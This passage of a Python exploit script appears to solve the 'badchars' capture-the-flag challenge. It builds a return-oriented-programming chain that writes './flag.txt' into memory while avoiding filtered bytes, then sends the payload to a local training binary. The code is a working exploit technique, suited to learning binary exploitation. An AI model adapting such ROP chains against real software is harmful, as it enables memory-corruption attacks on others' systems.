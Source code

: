 ```python 
                                x += temp[j].to_bytes(1, 'big')
                temp = x
                returnPayload += temp
                #destination r13
                returnPayload += p64( write_start+ (i))
                # This is the r14 value
                returnPayload += p64(0x01)
                # This is the r15 value
                returnPayload += p64(0xdeadbeefcafebabe)
                returnPayload += write_gaget
        for i in toModify:
                temp = b""
                temp += pop_15
					
                # This is the r15 value the lopcation to store and subtract from 
                temp += p64(i)
                temp += sub_gaget
                returnPayload += temp
        return returnPayload

"""
Place the value for the first args of a function
"""
def first_arg(var):
        returnPayload = pop_rdi
        returnPayload += p64(var)
        return returnPayload



io = process('./badchars')

#Fill up the buffer and the base pointer
payload = junk + new_bp

payload += string_place(b"./flag.txt", write_loc)

# This is the vaddr of system
# First return to the location of the pop rdi
payload += first_arg(write_loc)
payload += print_file

payload += back_junk


# print("The payload is:")
# print(payload)
print("Payload size is:" + str(len(payload)))

for i in range(len(payload)):
        if payload[i] in badChars:
                print("Warning bad char detected")
                exit()

input("Hit enter to apptempt exploit")

print(io.clean(0.5).decode("utf-8"))
io.send(payload)
input("exploit sent hit enter to end")
print(io.clean(0.5).decode("utf-8"))
sleep(1)
f = open('./payload', 'wb')
f.write(payload)
```